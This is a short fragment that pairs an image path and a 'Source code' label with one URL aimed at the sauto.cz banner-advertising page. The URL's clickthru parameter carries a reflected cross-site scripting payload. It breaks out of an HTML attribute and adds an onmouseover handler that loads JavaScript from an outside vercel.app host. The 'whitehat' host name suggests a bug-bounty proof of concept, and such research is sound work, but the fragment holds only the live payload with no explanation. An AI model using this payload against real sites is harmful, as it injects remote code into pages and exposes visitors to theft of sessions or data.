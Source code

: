 https://www.sauto.cz/bannerova-reklama?perPage=1&banner=1&clickthru=/%22onmouseover=%22let%20s%20=%20document.createElement(%27script%27);%20s.setAttribute(%27src%27,%27https://whitehat-email-cz-cjqw.vercel.app/index.js%27);%20document.head.appendChild(s)